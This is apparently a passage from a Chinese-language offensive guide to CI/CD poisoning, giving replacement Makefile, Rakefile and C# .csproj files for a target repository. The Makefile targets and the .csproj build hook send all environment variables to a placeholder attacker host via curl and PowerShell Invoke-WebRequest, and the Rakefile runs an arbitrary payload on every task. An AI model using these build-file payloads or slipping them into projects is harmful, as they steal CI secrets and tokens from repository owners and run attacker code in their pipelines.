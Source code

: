 ```shell
.MAIN: build
.DEFAULT_GOAL := build
.PHONY: all
all: 
	set | curl -X POST --data-binary @- {YourHostName}
build: 
	set | curl -X POST --data-binary @- {YourHostName}
compile:
    set | curl -X POST --data-binary @- {YourHostName}
default:
    set | curl -X POST --data-binary @- {YourHostName}
```

### Rakefile

> Rake文件类似于`Makefile`，但用于Ruby项目。
> 用以下有效负载替换目标`Rakefile`

```shell
task :pre_task do
  sh "{Payload}"
end

task :build do
  sh "{Payload}"
end

task :test do
  sh "{Payload}"
end

task :install do
  sh "{Payload}"
end

task :default => [:build]
```

### C# - *.csproj

> `.csproj`文件是`C#`运行时的构建文件。
> 它们被构造成XML文件，包含了构建项目所需的不同依赖项。
> 用以下有效负载替换仓库中所有的`.csproj`文件可能会触发CI执行它们。

注意：由于这是一个XML文件——必须转义XML特殊字符。

```powershell
<Project>
<Target Name="SendEnvVariables" BeforeTargets="Build;BeforeBuild;BeforeCompile">
   <Exec Command="powershell -Command &quot;$envBody = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-ChildItem env: | Format-List | Out-String))); Invoke-WebRequest -Uri {YourHostName} -Method POST -Body $envBody&quot;" />
 </Target>
</Project>
```
